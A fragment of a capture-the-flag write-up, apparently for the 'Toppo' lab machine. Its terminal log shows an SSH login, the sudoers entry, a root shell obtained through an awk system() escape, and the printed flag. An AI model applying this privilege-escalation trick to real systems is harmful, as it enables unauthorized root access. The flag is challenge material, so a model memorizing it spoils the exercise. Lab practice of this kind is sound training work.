 
>
root@hal:~# ssh ted@192.168.57.3
The authenticity of host '192.168.57.3 (192.168.57.3)' can't be established.
ECDSA key fingerprint is SHA256:+i9tqbQwK978CB+XRr02pS6QPd3evJ+lueOkK1LTtU0.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '192.168.57.3' (ECDSA) to the list of known hosts.
ted@192.168.57.3's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Apr 15 12:33:00 2018 from 192.168.0.29
ted@Toppo:~$ ls -la
total 24
drwxr-xr-x 2 ted  ted  4096 Apr 15  2018 .
drwxr-xr-x 3 root root 4096 Apr 15  2018 ..
-rw------- 1 ted  ted     1 Apr 15  2018 .bash_history
-rw-r--r-- 1 ted  ted   220 Apr 15  2018 .bash_logout
-rw-r--r-- 1 ted  ted  3515 Apr 15  2018 .bashrc
-rw-r--r-- 1 ted  ted   675 Apr 15  2018 .profile
ted@Toppo:~$ cat /etc/sudoers
ted ALL=(ALL) NOPASSWD: /usr/bin/awk

ted@Toppo:~$ which nc
/bin/nc
ted@Toppo:~$ awk 'BEGIN {system("whoami")}'
root
ted@Toppo:~$ cd /root/
-bash: cd: /root/: Permission denied
ted@Toppo:~$ sudo -l -l
-bash: sudo: command not found
ted@Toppo:~$ awk 'BEGIN {system("/bin/sh")}'
# root
/bin/sh: 1: root: not found
# ls
# 
# cd /root/
# ls
flag.txt
# cat flag.txt
_________                                  
|  _   _  |                                 
|_/ | | \_|.--.   _ .--.   _ .--.    .--.   
    | |  / .'`\ \[ '/'`\ \[ '/'`\ \/ .'`\ \ 
   _| |_ | \__. | | \__/ | | \__/ || \__. | 
  |_____| '.__.'  | ;.__/  | ;.__/  '.__.'  
                 [__|     [__|              




Congratulations ! there is your flag : 0wnedlab{p4ssi0n_c0me_with_pract1ce}



# 
